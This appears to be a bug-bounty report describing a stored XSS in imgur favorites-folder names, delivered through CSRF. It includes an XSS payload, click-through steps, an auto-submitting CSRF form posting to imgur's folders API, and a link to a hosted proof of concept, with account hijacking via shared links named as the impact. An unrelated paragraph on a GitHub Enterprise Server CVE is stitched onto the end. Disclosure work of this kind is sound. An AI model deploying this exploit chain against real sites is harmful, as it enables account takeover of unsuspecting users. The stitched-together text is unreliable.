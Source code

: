 ```
* Change name to
```
"'><img src=x onerror=prompt(1)>
```
* Save
* Visit a photo
* Click the little plus next to the heart on bottom left of image
* Add to the folder
* xss will launch

Since self xss is out of scope, we will need a method of delivering this attack to a user.
This can be done via a CSRF to create a favorites folder.

# POC

Using a form like so to create the CSRF:
```
<html>
<body onload='document.forms[0].submit()'>
  <form method='POST' enctype='application/json' action='https://api.imgur.com/3/folders'>
    <input name='name' value='New Test"><img src=x onerror=prompt(2)>'>
    <input name='is_private' value='false'>
  </form>
</body>
</html>
```

Or be logged into your imgur account and visit

http://blackdoorsec.net/sandbox/imgur2.html

This will create the folder with an xss name that can be used to attack an account.

## Impact

account hijacking
since a user would still need to add an image to the folder for the attack to work, the success rate will be lower than normal

#Scenerio
since reddit/imgur communities overlap malicious links containing the CSRF could be sent throughout the site. out of the few thousand hits the link would get, i imagine there would be several successful compromised imgur accounts.

A path traversal vulnerability was identified in GitHub Enterprise Server management console that allowed the bypass of CSRF protections. This could potentially lead to privilege escalation. To exploit this vulnerability, an attacker would need to target a user that was actively logged into the management console. This vulnerability affected all versions of GitHub Enterprise Server prior to 3.5 and was fixed in versions 3.1.19, 3.2.11, 3.3.6, 3.4.1.
[CVE-2022-23732](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23732)